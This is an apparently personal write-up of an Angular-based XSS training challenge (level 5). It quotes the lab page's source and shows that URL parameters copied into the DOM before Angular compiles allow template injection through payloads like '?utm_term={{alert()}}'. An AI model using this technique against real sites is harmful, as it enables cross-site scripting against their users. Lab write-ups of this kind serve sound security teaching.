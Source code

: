 # **XSSGame Level 5**

```
Angular
Angular is a very popular framework that has its own set of rules when it comes to securely developing applications. One of these is that you should be careful when modifying the DOM before Angular's templating system runs.

This challenge demonstrates why this is important.

The goal is again to exploit a vulnerability in the application to make it execute the JavaScript alert() function.

Hint
```

![](https://i.imgur.com/GKy09te.png)

You'll found that `alert()` in Angular is `{{alert()}}`.

![](https://i.imgur.com/z8z8BSz.png)

However, `{{alert()}}` still not the right payload.

```
<!DOCTYPE html>
<html>
  <head>
    <title>Foogle</title>
    <style>
      body {
        background-color: #ffffff;
      }
    </style>
  </head>
  <body ng-app="myApp">
    <div ng-controller="myController">
      <center>
        <img src="/static/img/foogle.png">
        <br>
        <form action="" method="POST">
          <input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">
          <input name="utm_term" type="hidden">
          <input name="utm_campaign" type="hidden" value="cpc">
          <input id="demo2-button" type="submit" value="Search">
        </form>
        <p>You have {{140 - query.length}} characters left.</p>

        
        
      </center>
    </div>

    <script src="/static/js/js_frame.js"></script>
    <script src="//ajax.googleapis.com/ajax/libs/angularjs/1.5.8/angular.min.js"></script>
    <script>
      angular.module('myApp', [])
      .controller('myController', ['$scope', function ($scope) {
        $scope.query = "";
        $scope.alert = window.alert;
      }]);

      var UTM_PARAMS = ["utm_content", "utm_medium", "utm_source",
          "utm_campaign", "utm_term"]

      if (location.search)
      {
        var params = location.search.substring(1).split('&');

        for (var p in params) {
          var r = params[p].split('=');

          if (r.length == 2 && UTM_PARAMS.indexOf(r[0]) != -1) {
            var el = document.getElementsByName(r[0]);
            if (el.length) el[0].value = decodeURIComponent(r[1]);
          }
        }
      }
    </script>
  </body>
</html>
```

Then we see that `ng-model="query"` in `<input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">`.

`ng-model` seems parse module for user input in Angular.

Fortunately, we can see that `utm_term` & `utm_campaign` are two more remain attributes which we can inject.

So, `?utm_term={{alert()}}` & `?utm_campaign={{alert()}}` both can pass this.

![](https://i.imgur.com/fl5sj36.png)

